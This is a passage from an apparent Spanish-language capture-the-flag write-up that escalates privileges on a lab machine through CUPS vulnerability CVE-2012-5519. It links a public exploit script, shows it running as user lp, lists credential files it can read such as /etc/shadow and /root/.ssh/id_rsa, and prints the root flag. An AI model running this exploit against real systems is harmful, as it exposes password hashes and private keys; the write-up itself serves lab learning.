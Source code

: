 Nos descargaremos el siguiente repositorio de GitHub el cual nos proporcionan un exploit.

{% embed url="https://github.com/p1ckzi/CVE-2012-5519" %}

Nos pasaremos el exploit al equipo comrpometido y lo ejecutaremos. Al ejecutarlo verificamos que podemos leer archivos arbitrarios, entre los cuales podemos visualizar la flag de **root.txt** directamente.

```bash
lp@antique:/tmp$ ls -l exploit.sh
ls -l exploit.sh
-rwxrwxr-x 1 lp lp 13028 Jan 27 00:39 exploit.sh
lp@antique:/tmp$ ./exploit.sh 
./exploit.sh
                                            _
  ___ _   _ _ __  ___       _ __ ___   ___ | |_
 / __| | | | '_ \/ __|_____| '__/ _ \ / _ \| __|____
| (__| |_| | |_) \__ \_____| | | (_) | (_) | ||_____|
 \___|\__,_| .__/|___/     |_|  \___/ \___/ \__|
 / _(_) | _|_|      _ __ ___  __ _  __| |  ___| |__
| |_| | |/ _ \_____| '__/ _ \/ _` |/ _` | / __| '_ \ 
|  _| | |  __/_____| | |  __/ (_| | (_| |_\__ \ | | |
|_| |_|_|\___|     |_|  \___|\__,_|\__,_(_)___/_| |_|
a bash implementation of CVE-2012-5519 for linux.

[i] performing checks...
[i] checking for cupsctl command...
[+] cupsctl binary found in path.
[i] checking cups version...
[+] using cups 1.6.1. version may be vulnerable.
[i] checking user lp in lpadmin group...
[+] user part of lpadmin group.
[i] checking for curl command...
[+] curl binary found in path.
[+] all checks passed.

[!] warning!: this script will set the group ownership of
[!] viewed files to user 'lp'.
[!] files will be created as root and with group ownership of
[!] user 'lp' if a nonexistant file is submitted.
[!] changes will be made to /etc/cups/cups.conf file as part of the
[!] exploit. it may be wise to backup this file or copy its contents
[!] before running the script any further if this is a production
[!] environment and/or seek permissions beforehand.
[!] the nature of this exploit is messy even if you know what you're looking for.

[i] usage:
	input must be an absolute path to an existing file.
	eg.
	1. /root/.ssh/id_rsa
	2. /root/.bash_history
	3. /etc/shadow
	4. /etc/sudoers ... etc.
[i] ./exploit.sh commands:
	type 'info' for exploit details.
	type 'help' for this dialog text.
	type 'quit' to exit the script.
[i] for more information on the limitations
[i] of the script and exploit, please visit:
[i] https://github.com/0zvxr/CVE-2012-5519/blob/main/README.md
[>] /root/root.txt
[+] contents of /root/root.txt:
dd7f80890d84993ab6f93e0cded15740
```
